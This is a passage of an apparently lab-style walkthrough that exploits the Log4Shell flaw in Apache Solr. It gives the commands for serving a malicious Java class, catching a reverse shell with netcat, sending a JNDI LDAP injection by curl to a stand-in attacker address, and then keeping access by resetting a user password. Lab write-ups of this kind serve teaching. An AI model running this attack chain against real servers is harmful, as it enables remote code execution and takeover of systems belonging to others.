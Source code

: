 After running, we will have 1 more file `Exploit.class`.

![image](https://user-images.githubusercontent.com/63194321/146558060-e9ef861c-1593-42d8-9268-4d9392e1927d.png)


Next, we host this java file through http server.(where the file `exploit.class` . is stored)
> python3 -m http.server
  
  ![image](https://user-images.githubusercontent.com/63194321/146558741-dff5a5cb-7283-46c3-a242-a10d38a24c31.png)


Open Netcat listener on port 4444:
> nc -nvlp 4444

![image](https://user-images.githubusercontent.com/63194321/146559044-f51b59cf-585b-4f31-8c75-1339cca15a64.png)

Finally, all that is left to do is trigger the exploit and fire off our JNDI syntax!
> curl 'http://MACHINE_IP:8983/solr/admin/cores?foo=$\{jndi:ldap://YOUR.ATTACKER.IP.ADDRESS:1389/Exploit\}'

![image](https://user-images.githubusercontent.com/63194321/146559382-9cfe3124-b854-437c-9817-5b2f974d04f8.png)

Listener on LDAP Referral Server:

![image](https://user-images.githubusercontent.com/63194321/146559446-147737c3-570d-4123-9bcc-adfe4f467212.png)

Netcat listener:

![image](https://user-images.githubusercontent.com/63194321/146559773-1712d573-a1b7-46ce-87c7-a96ca2ff71d5.png)

### Persistence

We can add the following to make the revert shell easier to use.
> python3 -c "import pty; pty.spawn('/bin/bash')"

![image](https://user-images.githubusercontent.com/63194321/146560332-f60840a9-7f9b-4692-aa11-0e98df8cc6ea.png)

Next identify the user with `whoami`

![image](https://user-images.githubusercontent.com/63194321/146560520-2c0d476a-c6d0-42c1-b36b-7f09833e53a6.png)

Define user permissions.
>sudo -l

![image](https://user-images.githubusercontent.com/63194321/146560749-4df304fa-cf1d-4a86-a3e1-efab0f83c6d8.png)


we see here we have all rights without using password so we can change user passwd and access via SSH.
> sudo passwd solr

![image](https://user-images.githubusercontent.com/63194321/146561096-5bdf71d7-3a54-4de4-a108-19dc6f309d02.png)

![image](https://user-images.githubusercontent.com/63194321/146561253-b3722e3b-f151-4c91-b8f7-d0d8f76e23a9.png)
